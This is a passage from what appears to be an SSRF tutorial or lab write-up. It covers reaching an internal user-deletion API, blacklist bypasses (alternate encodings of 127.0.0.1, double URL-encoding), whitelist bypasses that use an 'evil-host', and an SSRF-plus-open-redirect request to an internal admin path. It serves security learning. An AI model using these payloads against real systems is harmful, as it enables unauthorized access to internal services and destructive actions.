 ![image](https://github.com/user-attachments/assets/f7a374ce-fbfe-4b44-85fe-639d1555fcac)

Next we have to find the API for deleting users

![image](https://github.com/user-attachments/assets/9b45f0b7-7314-45be-a920-07cec3f37098)

Once we find it we make another request but this time use this API instead of a localhost.

![image](https://github.com/user-attachments/assets/5477139a-6615-4992-91eb-95c4db6b1e2a)

<h3>Bypass SSRF blacklist filters</h3>

1. Some SSRF filters may detects and removes "127.0.0.1" or "localhost". In this casem we can use **2130706433**, **017700000001**, or **127.1**.

2. In /etc/hosts, use a new dns that resolve to 127.0.0.1 and then use this dns in the vulnerable function.

3. Obfuscate special letters with URL encoded.

**Example**

![image](https://github.com/user-attachments/assets/faee16f8-2f22-4a1c-80e8-09290ba0ede7)

What i did here is double URL encoded "a" to bypass the blacklist

<h3>Bypass SSRF whitelist filters</h3>

You can embed credentials in a URL before the hostname, using the @ character. For example:

```
https://expected-host:fakepassword@evil-host
```

You can use the # character to indicate a URL fragment. For example:

```
https://evil-host#expected-host
```

You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

```
https://expected-host.evil-host
```

<h2>SSRF + Open Redirect</h2>

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

**Another example**
